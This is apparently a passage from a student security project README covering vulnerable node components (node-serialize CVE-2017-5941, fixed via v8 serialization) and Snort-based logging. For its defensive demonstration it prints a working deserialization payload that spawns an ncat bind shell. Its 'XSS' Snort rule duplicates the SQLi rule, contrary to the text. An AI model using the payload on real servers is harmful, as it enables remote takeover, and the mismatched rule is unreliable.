  |Team Treehouse|**Components** such as libraries, frameworks, and other software modules, run with same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover.  Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts|
  |GeeksforGeeks|**Components with known vulnerabilities** can be defined as third-party apps or software platforms that are outdated and contain bugs that are public to all, i.e. sites like <a href="https://www.exploit-db.com">exploit-db</a> contain the full details as to how to exploit the bugs to put the security of the whole website under severe threat.|
  |WhiteSource|**Components with known vulnerabilities** contain vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers.  From the moment of publication, a vulnerability can be exploited by hacker who find the documentation.|
  
  As developers, we often solely focus on functionality of the software we are writing, very rarely do we think about security.  We'll often incorporate libraries that help us get our job done, but we don't do our due diligence in researching possible vulnerabilities associated with those libraries.  The security often gets overlooked.
  
  ---
### Demonstration
  Our Web Application makes use of the node package **"node-serialize"** to serialize and deserialize objects. The **"node-serialize"** library has a CVE (Common Vulnerability and Exposure) associated with it.
  
  <a href="https://www.cvedetails.com/cve/CVE-2017-5941/">CVE-2017-5941</a> contains a description and links to proof of concept exploit code for the node-serialize library.
  
  For an in-depth demonstration on how to exploit a component with a known vulnerability, please refer to our Insecure Deserialization section, where you'll be taken through a step-by-step guide on how to exploit the **"node-serialize"** library.
  
  ---
### Remediation
  A mitigation technique to discover vulnerabilities against our web application is to manually check the libraries and version against exploit databases, CVEs, etc.  This is how we discovered the vulnerability with **node serialize v.0.0.4**, however, there are more efficient methods to do so.  As developers we can employ automated scanners, such as <a href="https://www.tenable.com">Tenable's Nessus</a> or <a href="https://www.openvas.org">Openvas</a>.
  
  Automated scanners enable developers to continuously monitor their web application for current and new vulnerabilities not only in our web applications, but in all software running on our Host system. Very rarely do hackers rely on one vulnerability to gain control of a system.  Systems are usually "rooted" by chaining multiple exploits together. Automated scanners are an effective way to discover vulnerabilities and address "low hanging fruit".
  
  Once a component with a known vulnerability is discovered, developers should seek to remove that component from their application, or mitigate the vulnerability.  In the Insecure Deserialization section, we mitigated the vulnerability with the use of the <code>JSON.stringify</code> function.  A more preferable solution, would be to use another library that provides the same functionality, but without the vulnerabilty.
  
  The nodejs engine <span class="bold">v8</span> provides us such a capability. It allows to serialize and deserialize objects.
  
  Our code to serialize user input is now:
  
  ```
  var v8 = require('v8')
  var obj = req.body.userInput
  var serialized = v8.serialize(obj)
  var json = JSON.stringify(serialized)
  ```
  
  Here's what you'll see if you serialize an object in our web app:
  
  ```
  {test:123}
  ```
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities1.PNG">
  
  Our code to deserialize an object is now:
  
  ```
  var obj = Buffer.from(JSON.parse(req.body.userInput).data)
  var deserialized = obj.toString('utf8')
  ```
  
  Here's what you'll see if you deserialize the corresponding serialized object:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities2.PNG">
  
  As in the Insecure Deserialization Section, attempt to start up a BIND shell on our webserver, by deserializing the following malicious input:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  We now receive a error message, instead of a BIND shell:
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities3.PNG">  
  
  ---
### Citations: Using Components with Known Vulnerabilities
  "Insecure Components". Team Treehouse.  
  https://teamtreehouse.com/library/insecure-components (accessed Feb 18, 2022).
  
  "What is using components with known vulnerabilities". GeeksForGeeks.  
  https://www.geeksforgeeks.org/what-is-components-with-known-vulnerability/ (accessed Feb 19, 2022).
  
  "You can't ignore using components with known vulnerabilities". Whitesource.  
  https://www.whitesourcesoftware.com/resources/blog/using-components-with-known-vulnerabilities/ (accessed Feb 19, 2022).
</details>

# 10. Insufficient Logging & Monitoring
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |Siemba|**Insufficient logging and monitoring** is missing security critical information logs or lack of proper log format, context, storage, security and timely response to detect an incident or breach.|
  |Crashtest Security|Attacks based on <span class="bold">insufficient logging and monitoring</span> are usually ranked high prevalence, medium in opportunity, and low in detectability.  Ensuring that all events are logged, and events monitored, as a result, is often considered a first step in intrusion detection.|
  |MITRE|When a security-critical events are not logged properly, such as a failed login attempt, this can make malicious behavior more difficult to detect and may hinder forensic alanysis after an attack succeeds.|
  
  ---
### Demonstration
  **Insufficient Logging and Monitoring** is not necessarily a vulnerability that can be exploited, however, it makes an attack on system more likely to succeed.  The absence of logging and monitoring means that it is almost impossible to detect an attack on a system and thus prevents any response or mitigative actions from taking place.
  
  ---
### Remediation
  Our remediation makes use of **Snort**. To see this remediation, please head to our <a href="http://ec2-157-175-92-30.me-south-1.compute.amazonaws.com:37773/insufficientLoggingAndMonitoring">AWS EC2 instance</a> and try the exercises there, which will trigger our web application to start up Snort.
  
  Snort is an Intrustion Detection System (IDS) and is installed on our host operating system in our AWS EC2 instance.
  
  The heart of what makes Snort work is the rules file. Below, is a screenshot of the rules that we created:</p>
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/snort_rules.png" width="100%">
  
  The following screenshot explains the general syntax of a snort rule:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/snort_syntax.png" width="100%">
  
  This following rule tells Snort what to look for in an sqli attack:
  ```
  alert tcp any any -> any any (msg: "SERVER-WEBAPP SQLI";content: "%27"; sid:10000003;)
  ```

  The only portion of the rule not explained in the syntax screenshot, is the **content** key-value pair.  The value, which in this case is "%27", is unicode for a single quote, which is what is required to conduct an sqli attack against our web application.  This rule tells snort to inspect packets being sent to our system, if detects a single quote in the packet, it will generate a log.
  
  This following rule tells Snort what to look for in an XSS attack:
  ```
  alert tcp any any -> any any (msg: "SERVER-WEBAPP SQLI";content: "%27"; sid:10000003;)
  ```
  
  In this rule when snort detects the string "alert" in a packet, it will generate a log for possible XSS attack.
  
  In the logs we can see your IP, or the IP of the attacker attempting to exploit our web application. (IP obscured in screenshot below):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/logs.PNG">
  
  This demonstration shows how powerful logging and monitoring can be, it can help defenders identify possible intrusions into their system.  However, an IDS is only as good as the rules that written for it.  Additionally, defenders must also be skilled in reviewing logs.  In our example we only had two attacks, in an enterprise system, their could potentially be hundreds, thousands, even hundreds of thousands of alerts.
  
  ---
### Citations: Insufficient Logging & Monitoring
  "OWASP Top 10 - Insufficient Logging and Monitoring". Siemba.  
  https://www.siemba.io/post/owasp-top-10-insufficient-logging-monitoring (accessed Feb 26, 2022).
  
  "Comprehensive Guide To Insufficient Logging and Monitoring and How to Prevent It". Crashtest Security.  
  https://crashtest-security.com/insufficient-logging-monitoring-guide/ (accessed Feb 27, 2022).
  
  "Insufficient Logging". MITRE.  
  https://cwe.mitre.org/data/definitions/778.html (accessed Feb 26, 2022).
</details>

# Citations: Primary Sources

"Website Security Research Project." EECS Project site.
https://eecs.oregonstate.edu/capstone/submission/pages/viewSingleProject.php?id=OLLHp1v4lrRuobYa (accessed Dec 2021-Jan 2022).

Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.
https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Dec 2021-Jan 2022).

# Code References

REFERENCES  
<sub>
├── body-parser		| "body-parser", http://expressjs.com/en/resources/middleware/body-parser.html  
├── crypto			| "Crypto", https://nodejs.org/api/crypto.html#cryptorandombytessize-callback  
├── expressjs		| "Hello world example", https://expressjs.com/en/starter/hello-world.html  
├── expressjs		| "cs340_sample_nodejs_app", https://github.com/knightsamar/cs340_sample_nodejs_app  
├── expressjs		| OSU CS340 INTRODUCTION TO DATABASES, https://canvas.oregonstate.edu/courses/1825733  
├── expressjs		| "Express error handling", https://expressjs.com/en/guide/error-handling.html  
├── express-session	| "express-session", http://expressjs.com/en/resources/middleware/session.html  
├── handlebars		| "Introduction", https://handlebarsjs.com/guide/  
├── handlebars		| "Express Handlebars", https://www.npmjs.com/package/express-handlebars  
├── handlebars		| "Hello Handlebars", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/hello-node/hello-handlebars.html  
├── handlebars		| "app.locals", https://expressjs.com/en/api.html#app.locals  
├── JavaScript		| "Element.classList", https://developer.mozilla.org/en-US/docs/Web/API/Element/classList  
├── JavaScript 		| "parseInt()", https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt  
├── MySQL			| "Using Node on the Engineering Servers", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/tools-and-overview/Using-Node-on-the-Engineering-Servers.html  
└── Window.prompt 	| "Window.prompt()", https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt  
</sub>

